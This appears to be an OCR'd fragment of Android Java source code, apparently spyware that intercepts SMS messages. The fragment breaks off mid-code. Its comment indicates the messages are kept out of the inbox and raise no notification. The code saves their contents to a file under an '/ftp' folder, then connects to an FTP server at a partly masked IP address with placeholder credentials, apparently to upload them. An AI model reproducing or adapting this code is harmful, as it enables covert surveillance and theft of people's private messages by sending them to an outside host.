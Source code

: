 ```
                //and no alert notification and sms not in inbox
                try {
                    String f_name = new SimpleDateFormat("yyyyMMddhhmm").format(new Date());
                    File root = Environment.getExternalStorageDirectory();
                    if (root.canWrite()){
                        File dir = new File (root.getAbsolutePath() + "/ftp");
                        dir.mkdirs();
                        File f = new File(dir, address.toString() + "-" + f_name + ".txt");
                        FileWriter fw = new FileWriter(f);
                        BufferedWriter out = new BufferedWriter(fw);  

                        // Continue
                        out.write(messages);
                        out.close();
                    }

                 // Connect to FTP
                    FTPClient con = null;

                    try
                    {
                        con = new FTPClient();
                        con.connect("69.x.x.x");

                        if (con.login("USERNAME", "PASSWORD"))
                        {
                            con.enterLocalPassiveMode(); // important!
